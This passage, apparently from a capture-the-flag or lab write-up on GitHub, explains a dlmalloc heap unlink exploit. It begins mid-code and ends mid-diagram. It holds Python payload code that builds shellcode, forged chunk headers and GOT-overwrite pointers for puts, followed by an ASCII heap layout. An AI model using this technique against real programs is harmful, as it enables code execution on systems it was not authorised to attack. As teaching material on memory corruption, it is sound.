     # set to 0 followed by setting the length of the next block (`name`) to `-4`, thus
    # dlmalloc will believe the third block's `PREV_INUSE` is 0 and that the second
    # block is unallocated and can be consolidated with the first block
    payload = shell_code + (b'B' * (664-len(shell_code))) + p32(-4, sign="signed")*2
    # finally, overwrite the forward pointer to the address of `puts()`
    # in the Global Offset Table (the function to overwrite the return address of)
    # and the backward pointer to the address for the function specified by the
    # forward pointer to return to (our shell code, which the program tells us the
    # location of when it runs)
    payload += p32(exe.got["puts"] - 12) + p32(address)
    ```

    The above shell code makes the heap loop as follows (as described in step 4):

    ```
    -------------0--+------------------------+---+
                    | 672                    | P |
    firstname -->   +------------------------+---+ --+
                    | shellcode + filler         |   |
                    |                            |   |
                    |                            |   |
                    |                            |   | 666 bytes
                    |                            |   |
                    |                            |   |
                    +----------------------------+   |
                    | 100                    | 0 | --+
    ----------------+------------------------+---+
                    | -4                     | 0 |
    name ------->   +------------------------+---+ --+
                    | exe.got["puts"] - 12       |   |
                    +----------------------------+   |
                    | address of firstname       |   |
                    +----------------------------+   | 66 bytes
                    |                            |   |
                    |                            |   |